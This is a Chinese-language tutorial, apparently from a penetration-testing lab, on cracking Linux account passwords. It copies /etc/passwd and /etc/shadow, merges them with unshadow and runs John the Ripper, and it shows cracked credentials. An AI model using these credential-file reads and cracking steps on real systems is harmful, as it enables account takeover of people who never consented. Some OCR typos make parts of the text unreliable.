 ## 破解Linux用户密码
- 在Linux中，很多操作都需要根用户 root 才可以执行。如果获取一个 Linux 远程会话的用户没有权限，又无法提权，则该会话也就没有用了。此时，用户可以对 Linux 系统用户密码实施破解，进而登录目标系统。
- Linux 系统将加密的密码散列保存在名为 shadow 的文件里，该文件默认保存在/etc/shadow中。只要将该文件破解，就可以查看到用户的原始密码。但是在破解/etc/shadow 密码之前，还需要/etc/passwrd文件。该文件中保存了用户的基本信息，如用户名称、宿主目录和登录Shell等。破解Linux用户密码就是通过提取/etc/shadow 和/etc/passwd 文件，将它们结合在一起，然后使用密码破解工具进行破解

```c
//破解 Linux 用户密码。具体操作步骤如下：
//（1）为了方便输入，这里将获取的用户密码文件复制到/root 中。
root@daxueba:~# cp /etc/passwd /etc/shadow /root/
//执行以上命令后，passwd 和 shadow 文件就保存到/00t 目录中了。

//(2）使用unshadow命令提取密码文件
root@daxueba:~# unshadow passwd shadow > cracked
执行以上命令，表示将 passwd 和shadow 文件中的内容都提取出来，并保存到cracked目录中

//(3）使用 john工具破解密码
root@daxueba:~# john --wordlist=/usr/share/john/password.lst cracked
//--wordlist选项，是用来指定破解密码的密码字典
Warning: detected hash type "sha512crypt", but the string is al so recognized as "crypt" Use the "--format=crypt" option to force loading these as that type instead
Loaded 6 password hashes with 6 different salts (sha512crypt [64/64])
Remaining 5 password hashes with 5 different salts
daxueba (root)
123456 (klog)
service (service)
msfadmin (msfadmin)
quesses: 4 time: 0:00:00:25 DONE (Tue Jul 22 14:24:07 2014) c/s: 424
trying: paagal - sss
Use the "-show" option to display all of the cracked passwords reliably
//从输出的信息中可以看到，当前系统root 用户的密码是 daxueba。此时，用户也可以使用--show 选项查看 passwd 第2个字段的信息。
root@daxueba:~# john --show cracked
root: daxueba:0:0:root:/root:/bin/bash
klog:123456:1000:1001:klog,,,:/home/klog:/bin/bash
service:service:1003:1004: service,,, : /home/service: /bin/bash
msfadmin:msfadmin:1004:1005:msfadmin,,,:/home/msfadmin:/bin/bash
4 password hash cracked,4 left
//从输出的信息中可以看到，passwd 中root 用户第2个字段由原来的密码占位符变成了真实的密码

//使用John the Ripper 工具破解Linux 用户密码时，必须在本机上操作。而且，对etc/shadow 和/etc/passwd 这两个文件必须要有读取的权限
```

